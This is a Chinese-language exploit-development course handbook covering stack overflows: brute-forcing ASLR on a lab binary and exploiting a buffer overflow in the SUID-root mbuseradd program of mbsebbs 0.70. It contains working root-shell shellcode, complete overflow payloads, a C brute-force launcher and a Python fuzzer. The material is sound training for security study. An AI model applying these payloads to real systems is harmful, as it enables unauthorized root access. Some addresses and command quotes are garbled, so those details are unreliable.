© 2019 Stephen Sims 授权给：Phillip Desilva <phildesilva2020@outlook.com> 2020年4月24日 217
## 课程路线图
- 面向渗透测试员的网络攻击
- 密码学与后渗透
- Python、Scapy与模糊测试
- 面向渗透测试员的Linux漏洞利用
- 面向渗透测试员的Windows漏洞利用
- 夺旗挑战
- **第4天**
- 内存入门
- Shellcode入门
- **栈粉碎攻击**
- 实验：Linux栈溢出
- 实验：ret2libc（返回libc攻击）
- **高级栈粉碎攻击**
- 实验：x64_vuln
- **训练营**
- 实验：暴力破解ASLR
- 实验：mbse
- 奖励实验：带ASLR的ret2libc攻击
## 660.4 训练营
欢迎参加660.4训练营实验。
## 训练营实验介绍
在本期训练营中，你将有机会完成3个实验：
- aslr_brute：暴力破解ASLR
- 目标为提供的aslr_brute程序
- mbse：利用mbse BBS软件
- 目标为mbse BBS系统
- ret2libc_aslr：使用ret2libc技术利用目标程序
- 目标为提供的ret2libc_aslr二进制文件
- 我们为最终挑战提供了提示，但不会给出完整的手把手教程（这部分留给你自行完成挑战！）
## 第4天训练营
### 实验一 – 暴力破解ASLR
本节中，我们将完成一个暴力破解ASLR的实验。
开启ASLR时，你的Kubuntu Pangolin虚拟机上的栈会使用20位的熵值进行随机化。
我们猜中内存中变量精确地址的概率为2^20（即1048576分之一）。
暴力破解是绕过ASLR的一种高噪声方法，很可能会产生海量的日志和告警。
不过，暴力破解几乎总能成功，具体取决于你尝试的次数。
`aslr_brute`程序位于你的`/home/deadlist`目录下。
你需要再次在你的Kubuntu Precise Pangolin虚拟机上开启ASLR。
你可以选择自行尝试攻击该程序，或者继续往后看手把手教程。
本实验预计耗时30分钟左右。
## aslr_brute程序
- 运行程序，它会向你询问名字：
```deadlist@deadlist:~$ ./aslr_brute
Usage: Tell me your name...
deadlist@deadlist:~$ ./aslr_brute Stephen
Hi there Stephen
deadlist@deadlist:~$ ./aslr_brute `python -c 'print "A" * 1000'`
Hi there AAAAAAAAAAAAA
Segmentation fault (core dumped)
```
输入1000个A会触发段错误。
`aslr_brute`是一个简单的概念验证（PoC）程序，它会向你询问名字并打印到屏幕上。
如果你只输入短名字，程序不会出现问题，会按预期运行。
但如果你用Python输入1000个A，程序就会发生段错误崩溃，如上所示。
我们最好先关闭ASLR再攻击该程序，以此确认我们能成功利用该漏洞，不过这一步可由你自主选择。
## 用GDB调试aslr_brute
- 先反汇编`main`函数，再反汇编`copyFunction()`函数：
```(gdb) disas main
...
0x080484e2 <+50>: call 0x8048474 <copyFunction>
0x080484e7 <+55>: mov $0x0,%eax

(gdb) disas copyFunction
Dump of assembler code for function copyFunction:
0x08048474 <+0>: push %ebp
0x08048475 <+1>: mov %esp,%ebp
0x08048477 <+3>: sub $0x8,%ebp
0x0804847d <+9>: mov 0x8(%ebp),%eax
0x08048480 <+12>: mov 0x4(%esp),%eax
0x08048484 <+16>: lea -0x260(%ebp),%eax
0x0804848a <+22>: mov %eax,(%esp)
0x0804848d <+25>: call 0x8048370 <strcpy@plt>
```
用GDB打开该程序并执行以下命令：
```gdb
gdb aslr_brute
disas main
disas copyFunction
```
反汇编`copyFunction()`时，你应该能看到针对`-0x260`的`lea`指令，这对应608字节，也就是缓冲区的大小。紧接着你会看到对`strcpy()`的调用。现在我们知道了可溢出的缓冲区大小：608字节处是保存的帧指针（SFP）的起始位置，612字节处是返回指针（RP）的起始位置。
## 控制EIP
- 验证我们的假设：
```(gdb) run 'python -c 'print "A"*612 + "\x0d\xf0\xad\xba"''
Starting program: /home/deadlist/aslr_brute
`python -c 'print "A"*612 + "\x0d\xf0\xad\xba"'`
Hi there AAAAAAAAAAA
Program received signal SIGSEGV, Segmentation fault.
0xbaadf00d in ?? ()
```
我们在612字节处控制了EIP，接下来来构造漏洞利用代码。
在GDB中，你可以输入以下命令：
```gdb
run 'python -c 'print "A" *612 + "\x0d\xf0\xdd\xba"'`
```
你应该会看到`0xbadff00d`是触发段错误的地址。现在我们已经验证了缓冲区大小以及我们控制EIP的能力，接下来来构造我们的漏洞利用代码。
### 查找返回地址
快速为我们的漏洞利用查找一个可用的返回地址。使用`shellcode2.txt`文件中的shellcode，该shellcode在利用成功时可以直接为我们获取一个shell，文件路径为`/home/deadlist/shellcode2.txt`。
在GDB中使用以下命令构造漏洞利用代码：
```gdb
run `python -c 'print "A" *612 + "BBBB" + "\x31\xc0\x31\xdb\x29\xc9\x88\xca\xb0\x46\xcd\x80\x29\xc0\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x54\x89\xe1\xb0\x0b\xcd\x80"'`
```
这应该会触发地址`0x42424242`处的段错误，该地址是我们占位用的返回地址，直到我们找到目标返回地址为止。
输入命令`x/8x $esp -16`可以快速定位shellcode的起始位置：
```(gdb) x/8x $esp -16
0xbfffefb0: 0x41414141 0x41414141 0x41414141 0x42424242
0xbfffefc0: 0xdb31c031 0xca89c929 0x80cd46b0 0x6852c029
```
地址`0xbfffefc0`看起来是不错的跳转目标。现在退出调试器测试漏洞利用代码。如果在实验过程中你收到“非法指令”提示而非预期结果，可以尝试在返回指针和shellcode前添加一段短的NOP sled（空指令雪）。你可能需要尝试NOP sled中的几个不同地址才能成功。


## 尝试我们的利用程序
- - 修改返回地址并运行利用程序
```deadlist@deadlist:~$ ./aslr_brute 'python -c 'print "A" *612 + "\xc0\xef\xff\xbf" + "\x31\xc0\x31\xdb\x29\xc9\x89\xca\xb0\x46\xcd\x80\x29\xc0\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x54\x89\xe1\xb0\x0b\xcd\x80"'' Hi there AAAAAAAAA # _ ```
- - 成功！现在我们需要在ASLR运行的情况下利用该程序
## 尝试我们的利用程序
现在你已经得到了指向NOP雪橇末尾的有效返回地址，请在调试器外设置好你的脚本。如幻灯片所示，我们已成功获取root shell。这没什么问题，但并非我们练习的目标。现在我们必须尝试在ASLR运行的情况下利用该程序。另外，如果你收到“非法指令”提示而非正常的shellcode执行，请尝试在返回指针和shellcode前添加NOP雪橇。
## 在启用ASLR的情况下运行
- - 以root身份启用ASLR
- 运行相同的利用程序……失败！
```deadlist@deadlist:~$ sudo -i
root@deadlist:~# echo 2 > /proc/sys/kernel/randomize_va_space
root@deadlist:~# exit
logout
deadlist@deadlist:~$ ff\xbf" + "\x31\xc0\x31\xdb\x29\xc9\x89\xca\xb0\x46\xcd\x80\x29\xc0\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x54\x89\xe1\xb0\x0b\xcd\x80"'' Hi there AAAAAAAAAA
Segmentation fault ```
## 在启用ASLR的情况下运行
将权限提升为root，输入**echo 2 > /proc/sys/kernel/randomize_va_space**以启用ASLR。现在尝试运行刚才帮你获取root shell的利用程序。除非你运气极好，否则会收到段错误。如果你觉得可以尝试暴力破解ASLR来提高成功率，可以自行继续后续操作。
## 创建暴力破解ASLR的利用脚本
- - 我们的脚本，拆分为多个部分：

## 创建暴力破解ASLR的利用脚本
你现在编写的这个脚本可以帮你了解程序内部发生了什么，同时提高暴力破解程序的成功率。请逐个查看脚本的各个部分：
```#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>
```
以上是我们程序所需的所有必要库。
```unsigned long esp(void) {
asm("movl %esp, %eax"); /*This inline asm prints ESP*/
asm("shr $4, %eax"); /* getting rid of al as it's static*/
}
```
这个函数实现两个功能：首先将栈指针地址移至EAX寄存器，然后使用右移（shr）指令将低位的半字节移出寄存器。稍后你会明白这样做的必要性。该函数最终会将EAX中存储的地址返回给调用者。
## 我们的脚本（1）
- - 我们的main()函数和用于生成root shell的shellcode
```int main(void) {
unsigned char scode[]= "\x31\xc0\x31\xdb\x29\xc9\x89\xca\xb0\x46\xcd\x80"
"\x29\xc0\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
"\x6e\x89\xe3\x52\x54\x89\xe1\xb0\x0b\xcd\x80";
/*setreuid() and execve() /bin/sh*/
}
```
## 我们的脚本（1）
```int main(void) {
unsigned char scode[]= "\x31\xc0\x31\xdb\x29\xc9\x89\xca\xb0\x46\xcd\x80"
"\x29\xc0\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
"\x6e\x89\xe3\x52\x54\x89\xe1\xb0\x0b\xcd\x80";
/*setreuid() and execve() /bin/sh*/
```
这部分脚本非常直观，它是main()函数的开头，后面跟着我们的shellcode，若以相应权限执行该shellcode，即可生成root shell。
## 我们的脚本（2）
- - 用合适的攻击数据填充缓冲区
```char buffer[1651]; /*exact size of buffer when populated with below*/
```
这段代码定义的缓冲区大小完全符合需求，包含了填充数据、返回指针、NOP雪橇和shellcode。
- - 使用函数传递你的缓冲区
## 我们的脚本（2）
```char buffer[1651]; /*exact size of buffer when populated with below*/
```
```printf("\n\nASLR ESP at 0x%x0\n", esp());
/*printf("RetPt Guess 0xbfffefc0\n");*/
/*printf("Distance: %d\n",0xbfffefc -esp()); /*Print ESP offset from guess*/
```
这段代码仅用于打印信息，属于非必要代码，它会显示封装程序中ESP的位置、我们猜测的返回指针地址，以及两者的距离。你可以借此查看猜测的返回指针与实际shellcode位置的接近程度。
```memset(buffer, 0x41, 612); /*Fill buffer with A's to RP*/
strcat(buffer+612, "\xc0\xef\xff\xbf"); /*Our RP guess*/
memset(buffer+616, 0x90, 1000); /*1000 byte NOP sled to help with brute force*/
memcpy(buffer+1616, scode, sizeof(scode)); /*Append shellcode*/
execl("./aslr_brute", "aslr_brute", buffer, NULL); /*Pass in our data to vuln prog*/
exit (0);
}
```
这些数据仅用于按本页开头所述的内容填充缓冲区，同时使用execl()函数将缓冲区传递给目标程序。strcat()函数用于将我们猜测的返回指针地址复制到缓冲区中，该地址可以是栈地址范围0xbf000008到0xbffffff8内的任意有效地址。显然，缓冲区不可能适配到栈的底部。
## 我们的FOR循环
- - 我们的尝试范围最大为25000次
- 使用sleep()仅为了方便我们观察运行情况
```deadlist@deadlist-desktop:~$ for i in {1..25000}; do echo Number of tries: $i && ./pw_aslr && break; echo EXPLOIT FAILED; sleep .001; clear; done;
```
## 我们的FOR循环
以下是能够实现多个功能的FOR循环：
```for i in {1..25000}; do echo Number of tries: $i && ./pw_aslr && break; echo EXPLOIT FAILED; sleep .001; clear; done;
```
首先，我们创建1到25000的数值范围，这设置了我们要对该程序发起的最大尝试次数。接下来，我们使用echo显示已尝试的次数，若利用成功，即可看到成功所需的尝试次数。如果利用成功，会弹出root shell；退出root shell后，除非使用break命令，否则循环会继续执行。在利用成功或循环耗尽前，“EXPLOIT FAILED”会一直显示。之后我们使用sleep()函数，传入较小的数值0.001，你可以将其修改为任意偏好的时长。不使用sleep的话，显示内容会很难阅读。这部分完全是可选的。然后我们使用clear命令，将显示信息保留在屏幕顶部以提高可读性。最后使用done命令终止该循环。现在可以运行该命令，如下一张幻灯片所示。
## 执行我们的循环
- - 1468次尝试后成功暴力破解ASLR！
- 距离显示为70
- 该作者在循环运行20次后，平均每5561次尝试成功1次
- 完成！

## 执行我们的循环
在本幻灯片所用的运行实例中，共进行了1468次尝试才成功猜测到正确的地址。由于随机化最终会将我们带到NOP雪橇中，因此只要给脚本足够的运行时间，成功率几乎总是100%。部分ASLR实现使用的熵池位数为27位，而我们刚才针对的是20位的情况。只要持续尝试，且拥有足够的时间，我们仍然会成功。该作者运行了20次该循环，每次成功率均为100%。每次运行所需的尝试次数如下，平均每5561次尝试成功1次：
- 7227、632、1449、3487、1867、6256、3067、11746、3184、12279、5780、963、7884、1938、3695、1797、1757、12794、14402、9014


## 第4天 训练营
### 练习二
- mbsebbs 0.70版本
- Linux平台的BBS系统
- 下载地址：http://sourceforge.net/projects/mbsebbs/
- 主要作者：P.E. Kimble
- 存在缓冲区溢出漏洞
- 压缩包存放路径为/home/deadlist/mbse
- 请使用你的Kubuntu Gutsy虚拟机

在本部分中，我们将针对Linux平台上的栈溢出漏洞进行实操。我们的目标是公开释出的应用程序MBSE BBS，这是一款面向UNIX的电子公告板系统（BBS）。0.70版本的其中一个二进制文件存在栈溢出缓冲区漏洞。接下来几页内容会引导你开始查找该漏洞，后续页面会提供定位并利用该漏洞的分步解决方案。请务必在自行尝试所有可能的方案后，再查看分步指导。如果你遇到难题，可以参看分步指导到你卡住的步骤，之后脱离课本的帮助继续研究漏洞利用。MBSE练习预计耗时1-2小时。本次练习结束后还有一个奖励挑战。

## 安装步骤（1）
- 安装流程已经为你预先完成！
- 我们首先需要正确安装该程序
- 程序存放路径为/home/deadlist/mbse，如下所示：
``` deadlist@deadlist-desktop:~$ pwd
/home/deadlist
deadlist@deadlist-desktop:~$ cd mbse
deadlist@deadlist-desktop:~/mbse$ ls
mbsebbs-0.70.0.tar
```
安装流程已经为你预先完成。除非你想完全从头开始安装，或是要在其他系统上安装该程序，否则请不要重复执行安装流程。编译和成功安装该程序的难度较高，因此建议你直接在Kubuntu Gutsy虚拟机上使用预装的版本。如果使用预装版本，可以直接跳转到名为“我们的目标”的幻灯片。我们需要先将MBSE BBS程序安装到系统中，才能开始测试它的漏洞。请确认/home/deadlist/mbse文件夹下存在mbsebbs-0.70.0.tar文件。

## 安装步骤（2）
- 执行bunzip2 mbsebbs-0.70.0.tar.bz2
- 执行tar -xvf mbsebbs-0.70.0.tar
- 执行cd mbsebbs-0.70.0/
``` deadlist@deadlist-desktop:~/mbse$ bunzip2 mbsebbs-0.70.0.tar.bz2
deadlist@deadlist-desktop:~/mbse$ tar -xvf mbsebbs-0.70.0.tar
mbsebbs-0.70.0/AUTHORS
mbsebbs-0.70.0/ChangeLog
mbsebbs-0.70.0/COPYING
```
``` deadlist@deadlist-desktop:~/mbse$ ls
mbsebbs-0.70.0  mbsebbs-0.70.0.tar
deadlist@deadlist-desktop:~/mbse$ cd mbsebbs-0.70.0/
```
现在只需执行以下命令，即可解压并提取程序文件：
``` bunzip2 mbsebbs-0.70.0.tar.bz2
tar -xvf mbsebbs-0.70.0.tar
cd mbsebbs-0.70.0/
```

## 安装步骤（3）
- 提升至root权限
- 运行SETUP.sh脚本
``` deadlist@deadlist-desktop:~/mbse/mbsebbs-0.70.0$ sudo -i
root@deadlist-desktop:~# bash /home/deadlist/mbse/mbsebbs-0.70.0/SETUP.sh
```
``` MBSE BBS for Unix, first time setup.
Checking your system...
If anything goes wrong with this script, look at the output of the file SETUP.log that is created by this script in this directory.
If you can't get this script to run on your system, mail this logfile to Michiel Broek at 2:280/2802 or email it to mbroek@mbse.dds.nl
Press ENTER to start the basic checks
█
```
现在我们需要以root权限运行SETUP.sh脚本。使用`sudo -i`命令提升至root权限，完成身份验证后，执行以下命令：
``` bash /home/deadlist/mbse/mbsebbs-0.70.0/SETUP.sh
```
你会看到底部图片中的提示信息，所有选项均选择默认值即可。系统会提示你为mbse用户账户设置密码，请选择一个你能够记住的密码。SETUP.sh脚本执行完成后，你会回到root权限的命令行提示符。退出root权限命令行，切换回你的deadlist账户。

## 安装步骤（4）
- 输入`./configure`
- 暂时不要执行“make”命令编译程序
``` deadlist@deadlist-desktop:~/mbse/mbsebbs-0.70.0$ ./configure
checking for gmake... no
checking for make... make
*** Main directory : ..... Owner and group : .......... mbse.bbs
Now type 'make' and as root 'make install'
deadlist@deadlist-desktop:~/mbse/mbsebbs-0.70.0$
```
> 内容因篇幅限制已截断
接下来我们需要在`~/mbse/mbsebbs-0.70.0`文件夹下执行`./configure`命令。注意`./configure`的输出内容因篇幅限制在中间做了截断。命令执行完成后，你会看到底部的提示信息，告诉你需要以root权限执行make命令，之后执行“make install”。暂时不要执行make命令编译程序，直接进入下一页。

## 安装步骤（5）
出于漏洞利用的需求，我们编译程序时需要禁用栈保护金丝雀（stack canaries）。另一项练习中我们会接触使用栈保护金丝雀和地址空间布局随机化（ASLR）的程序，届时再进行相关操作。另外，请确保你已经以root权限执行`echo 0 > /proc/sys/kernel/randomize_va_space`命令关闭了地址空间布局随机化（ASLR）。
完成上一页的`./configure`命令执行后，`~/mbse/mbsebbs-0.70.0`文件夹下应该会生成`Makefile.global`文件。使用vi等编辑器打开该文件，步骤如下：
1. `vi Makefile.global`
2. 使用方向键向下滚动，找到以`CFLAGS`开头的行（如幻灯片顶部图片所示）
3. 使用方向键将光标移动到“=”符号右侧，若使用vi编辑器则按下`i`键进入插入模式，输入`-fno-stack-protector`（如幻灯片第二张图片所示）
4. 若使用vi编辑器，先按一次Esc键，之后输入英文冒号，再输入`wq`保存并退出编辑器。进入下一页。

修改前后的`CFLAGS`行内容如下：
修改前的`CFLAGS`行：
``` CFLAGS = -O3 -fno-strict-aliasing -Wall -Wshadow -Wwrite-strings -Wstrict-prototypes -D_REENTRANT
LIBS = -lcrypt -lutil -lpthread
```
修改后的`CFLAGS`行（添加了`-fno-stack-protector`参数）：
``` CFLAGS = -fno-stack-protector -O3 -fno-strict-aliasing -Wwrite-strings -Wstrict-prototypes -D_REENTRANT
LIBS = -lcrypt -lutil -lpthread
```

## 安装步骤（6）
- 使用任意你熟悉的编辑器打开`Makefile`文件
- 保存修改后的文件
- 在普通用户权限的命令行中输入`make`
使用任意你熟悉的编辑器打开`Makefile`文件，找到图片中所示的代码段，该代码段位于Makefile文件的上方区域。将`@if [ -z ${MBSE_ROOT} ]`这一行中的`-z`删除，保存文件。在普通用户权限的shell中输入`make`命令，编译该程序。

## 安装步骤（7）
- 编辑`checkbasic`文件
- 将`exit 1`修改为`exit 0`
``` if [ "$LOGNAME" = "mbse" ]; then
#
# Looks good, normal mbse user and environment is set.
# Exit with errorcode 0
echo "Hm, looks good..."
exit 0
else
echo "*** You are not logged in as user 'mbse' ***"
exit 1
```
> 将这里的1修改为0
由于Makefile存在一些缺陷，我们在编译安装前还需要再做一处修改。编辑`checkbasic`文件，按照幻灯片标注的位置，将`exit 1`修改为`exit 0`，这样就可以跳过那个阻碍我们成功安装程序的很烦人的检查项了。

## 安装步骤（8）
- 提升至root权限后执行`make install`
``` deadlist@deadlist-desktop:~/mbse/mbsebbs-0.70.0$ sudo -i
root@deadlist-desktop:~# cd /home/deadlist/mbse/mbsebbs-0.70.0
root@deadlist-desktop:/home/deadlist/mbse/mbsebbs-0.70.0# export MBSE_ROOT="/opt/mbse"
root@deadlist-desktop:/home/deadlist/mbse/mbsebbs-0.70.0# make install
```

### 安装完成
``` Debian install ready.
Please note, your MBSE BBS startup file is "/etc/init.d/mbsebbs"
make[1]: Leaving directory `/home/deadlist/mbse/mbsebbs-0.70.0'
root@deadlist-desktop:/home/deadlist/mbse/mbsebbs-0.70.0# exit
```
现在我们已经准备好安装程序了。再次提升至root权限，切换目录到`/home/deadlist/mbse/mbsebbs-0.70.0`。接下来我们需要创建一个环境变量，输入以下内容：
``` export MBSE_ROOT="/opt/mbse"
make install
```
安装流程应该会顺利完成，最终会显示底部图片中的提示信息。如果安装过程中任何一步失败，你可以对`/home/deadlist/mbse`文件夹执行`rm -rf`命令，删除mbse用户，然后从头开始执行安装流程。


## 我们的目标
- 运行`su mbse`并输入密码
- 导航到`/opt/mbse/bin`目录
```shell
deadlist@deadlist-desktop:~/mbse/mbsebbs-0.70.0$ su mbse
Password:
mbse@deadlist-desktop:/home/deadlist/mbse/mbsebbs-0.70.0$ cd /opt/mbse/bin
mbse@deadlist-desktop:~/bin$ ls
bbsdoor.sh  mbcharset  mbfile  mbmail  mbnewusr  mbsebbs  mbstat  mbuseradd
hatch  mbico  mbindex  mbmon  mbnttp  mbsedos  mbtask  rundoor.sh
mbaff  mbdiff  mblang  mbmsg  mbout  mbseq  mbtoberep  runvirtual.sh
mball  mbfido  mblogin  mbnews  mbpasswd  mbsetup  mbuser
mbse@deadlist-desktop:~/bin$ ./mbuseradd
mbuseradd commandline: mbuseradd [gid] [name] [comment] [usersdir]
```
现在我们已经可以开始寻找漏洞了。首先你需要切换到mbse用户，只需要输入`su mbse`即可完成切换。输入正确的密码后，导航到`/opt/mbse/bin`目录，密码为`deadlist`。如果该方法无法生效，你可以尝试运行`sudo -i`获取root权限，再通过`su`切换到mbse用户。运行`ls`命令查看目录内容。如果你想要更清晰地查看该目录的文件，可以注销当前会话，以mbse用户身份重新登录。该目录下存在多个二进制文件，为节省时间，我们重点分析存在漏洞的二进制文件。`mbuseradd`程序存在缓冲区溢出漏洞，输入`./mbuseradd`即可运行该程序，你会发现其使用说明显示需要传入4个命令行参数：
```shell
mbuseradd [gid] [name] [comment] [usersdir]
```

## 攻击我们的目标
- 运行`ls -la mbuseradd`
```shell
mbse@deadlist-desktop:~/bin$ ls -la mbuseradd
-rw-r-s--x 1 root root 9156 2010-06-03 11:20 mbuseradd
```
> 已设置SUID位！
- 尝试让程序崩溃
```shell
mbse@deadlist-desktop:~/bin$ ./mbuseradd `python -c 'print "A" *100'` ARG2 ARG3 ARG4
mbuseradd: Argument 1 is too long
mbse@deadlist-desktop:~/bin$ ./mbuseradd ARG1 `python -c 'print "A" *100'` ARG3 ARG4
mbuseradd: Argument 2 is too long
mbse@deadlist-desktop:~/bin$ ./mbuseradd ARG1 ARG2 `python -c 'print "A" *100'` ARG4
mbuseradd: Argument 3 is too long
mbse@deadlist-desktop:~/bin$ ./mbuseradd ARG1 ARG2 ARG3 `python -c 'print "A" *100'`
mbuseradd: Argument 4 is too long
```
运行`ls -la mbuseradd`时，你会发现该程序以root权限的SUID运行，这意味着如果我们能利用该漏洞，我们的有效载荷将以root权限执行。已知该程序的4个命令行参数都是可攻击点，是否存在其他攻击目标？你可以尝试探索其他潜在攻击点，或者尝试让程序触发段错误。我们运行以下命令没有得到理想结果：
```shell
mbse@deadlist-desktop:~/bin$ ./mbuseradd `python -c 'print "A" *100'` ARG2 ARG3 ARG4
mbuseradd: Argument 1 is too long
mbse@deadlist-desktop:~/bin$ ./mbuseradd ARG1 `python -c 'print "A" *100'` ARG3 ARG4
mbuseradd: Argument 2 is too long
mbse@deadlist-desktop:~/bin$ ./mbuseradd ARG1 ARG2 `python -c 'print "A" *100'` ARG4
mbuseradd: Argument 3 is too long
mbse@deadlist-desktop:~/bin$ ./mbuseradd ARG1 ARG2 ARG3 `python -c 'print "A" *100'`
mbuseradd: Argument 4 is too long
```
你能想到其他尝试方向吗？现在是你实验其他方法让程序崩溃的好时机。更重要的是，你是否忽略了程序中的其他潜在攻击点？如果你想继续跟随教程，可以直接翻到下一页。

## 额外参数
- 检查环境变量：
```shell
/home/deadlist/mbse/mbsebbs-0.70.0/unix$ cat mbuseradd.c |grep getenv
...
mbsebbs", getenv("MBSE_ROOT"));
```
- MBSE_ROOT也是一个攻击目标！
- 尝试修改为不同长度的内容
```shell
mbse@deadlist-desktop:~/bin$ export MBSE_ROOT=`python -c 'print "A" *1000'`
mbse@deadlist-desktop:~/bin$ ./mbuseradd ARG1 ARG2 ARG3 ARG4
useradd: invalid home directory 'ARG4/ARG2'
```
检查源代码（如果可获取）中是否存在被用作程序输入的环境变量是个好习惯。安装过程中会创建一个名为`MBSE_ROOT`的环境变量，浏览安装说明就能看到该变量。注意顶部图片左侧被截断以适配幻灯片空间。导航到以下目录：
```shell
cd /home/deadlist/mbse/mbsebbs-0.70.0/unix
```
接着输入以下命令：
```shell
cat mbuseradd.c |grep getenv
```
你是否看到了`MBSE_ROOT`的相关引用？回到`/opt/mbse/bin`目录，尝试修改`MBSE_ROOT`环境变量的大小：
```shell
export MBSE_ROOT=`python -c 'print "A" *1000'`
```
尝试让程序崩溃，然后自行推进后续内容。如果你想继续跟随教程，请翻到下一页。

## 段错误
- 5000个A会触发段错误！
```shell
mbse@deadlist-desktop:~/bin$ export MBSE_ROOT=`python -c 'print "A" *5000'`
mbse@deadlist-desktop:~/bin$ ./mbuseradd ARG1 ARG2 ARG3 ARG4
Segmentation fault
```
- 漏洞代码如下
```c
temp = calloc(PATH_MAX, sizeof(char));
shell = calloc(PATH_MAX, sizeof(char));
homedir = calloc(PATH_MAX, sizeof(char));
```
- shell变量未做边界检查
```c
sprintf(shell, "%s/bin/mbsebbs", getenv("MBSE_ROOT"));
sprintf(homedir, "%s/%s", argv[4], argv[2]);
```
- MBSE_ROOT被拼接在`%s/bin/mbsebbs`路径前
当我们将`MBSE_ROOT`的长度修改为5000个A时，就会触发段错误。查看`mbuseradd.c`文件定位漏洞代码：
```c
temp = calloc(PATH_MAX, sizeof(char));
shell = calloc(PATH_MAX, sizeof(char));
// ← Here’s the problem...
homedir = calloc(PATH_MAX, sizeof(char));
```
`shell`变量没有做边界检查，被用于拼接`/bin/mbsebbs`路径：
```c
sprintf(shell, "%s/bin/mbsebbs", getenv("MBSE_ROOT"));
// ← This line...
sprintf(homedir, "%s/%s", argv[4], argv[2]);
```
开发者对4个命令行参数做了边界检查，但遗漏了环境变量的校验：
```c
/*
 * First simple check for argument overflow
 */
for (i = 1; i < 5; i++) {
    if (strlen(argv[i]) > 80) {
        fprintf(stderr, "mbuseradd: Argument %d is too long\n", i);
        exit(1);
    }
}
```

### 需要多少字节触发崩溃？
- 已知5000个A会触发段错误
- 我们可以用二分法逐步测试
- 我们可以编写一个简单的模糊测试器
- 我们可以用调试器分析
现在已经明确程序在处理`MBSE_ROOT`环境变量时存在缓冲区溢出漏洞，我们需要获取更多信息，首先要明确触发崩溃所需的最小字节数，可以通过以下几种方式达成：
如果`MBSE_ROOT`变量分配了固定大小的缓冲区，我们可以通过查看源码确认，但从之前的源码来看，`shell`变量的大小由`MBSE_ROOT`的长度决定。我们可以逐步调整输入长度，用二分法逼近崩溃阈值；也可以编写一个简单的模糊测试器，或者使用core dump、strace等工具；还可以用调试器对程序进行逆向分析。该程序已经被做了strip处理（移除了调试符号），因此可以尝试用简单模糊测试器验证是否可触发崩溃，你也可以尝试其他方法。

## 简单模糊测试器（Fuzzer）
- 以下是一个简单的Python模糊测试器：
```python
import os, time
program = "/opt/mbse/bin/mbuseradd ARG1 ARG2 ARG3 ARG4\n"
string = "A"
var = "Segmentation fault"
for i in range(4000,5000,4):
    os.putenv("MBSE_ROOT",string*i)
    a,b=os.popen4(program, 'r')
    str1 = b.read()
    if var in str1:
        print "Success! Segmentation Fault hit at",i, string,"'s\n"
        exit()
    else:
        time.sleep(0)
print "\nNo luck... Sorry it didn't work out...\n"
```
该模糊测试器会启动`mbuseradd`程序，将`MBSE_ROOT`环境变量设置为从4000个A到5000个A的长度，你可以根据需求自行调整这些数值。


## 模糊测试结果
- 运行模糊测试脚本 mbse.py
``` mbse@deadlist-desktop:/home/deadlist/mbse$ python mbse.py useradd: invalid home directory 'ARG4/ARG2' useradd: invalid home directory 'ARG4/ARG2' *** useradd: invalid home directory 'ARG4/ARG2' useradd: invalid home directory 'ARG4/ARG2' Success! Segmentation Fault hit at 4056 A's mbse@deadlist-desktop:/home/deadlist/mbse$ ```
运行模糊测试脚本时，我们成功在输入4056字节时触发了段错误。不同环境下结果可能有差异。这并不意味着在该数量的A字符时返回指针被覆写，但栈肯定已经损坏。接下来我们需要用GDB进一步检查分析。

## 使用GDB
- 提升权限至root用户，并进入/opt/mbse/bin目录
- 设置MBSE_ROOT对应的环境变量
- 用GDB打开mbuseradd程序
``` deadlist@deadlist-desktop:~/mbse$ sudo -i [sudo] password for deadlist: root@deadlist-desktop:~# cd /opt/mbse/bin root@deadlist-desktop:/opt/mbse/bin# export MBSE_ROOT=`python -c 'print "A" * 4052'` root@deadlist-desktop:/opt/mbse/bin# gdb ./mbuseradd ```
我们不会以mbse用户身份调试该程序，因此需要像演示中那样先将权限提升至root。请记住，攻击过程通常都需要攻击者先将待测试的目标程序副本安装到自己可控的系统上，这样可以在对目标发起实际攻击前拥有对程序的完全操作权限。权限提升完成后，请确保你处于/opt/mbse/bin目录下，此时将MBSE_ROOT环境变量设置为触发段错误的A字符数量，最后用gdb打开mbuseradd程序。
``` sudo -i cd /opt/mbse/bin export MBSE_ROOT=`python -c 'print "A" * 4052'` gdb ./mbuseradd ```

## 运行程序
- 执行命令 run 1 2 3 4
- 未出现崩溃？？
- 将A字符数量改为4082时出现崩溃，但未获取到EIP控制权
``` (gdb) run 1 2 3 4 (no debugging symbols found) Program exited with code 02. ```
``` (gdb) quit root@deadlist-desktop:/opt/mbse/bin# export MBSE_ROOT=`python -c 'print "A" *4082'` root@deadlist-desktop:/opt/mbse/bin# gdb ./mbuseradd (gdb) run 1 2 3 4 Starting program: /opt/mbse/bin/mbuseradd 1 2 3 4 (no debugging symbols found) Program received signal SIGSEGV, Segmentation fault. [Switching to Thread -1209874240 (LWP 22110)] 0x00322073 in ?? () ```
当我们在调试器中将MBSE_ROOT环境变量设置为4052个A字符时运行程序，程序似乎没有出现段错误。这没有问题，只是说明我们用Python模糊测试脚本运行时，触发段错误的字符数更低，说明我们的测试已经很接近临界值了。将MBSE_ROOT增加到4082个A字符时会触发段错误，但此时我们还未能获取EIP的控制权，继续尝试即可。

## 获取EIP控制权
- 4096个A字符时，EIP值为0x2f414141
- 4097个A字符时，EIP值为0x41414141
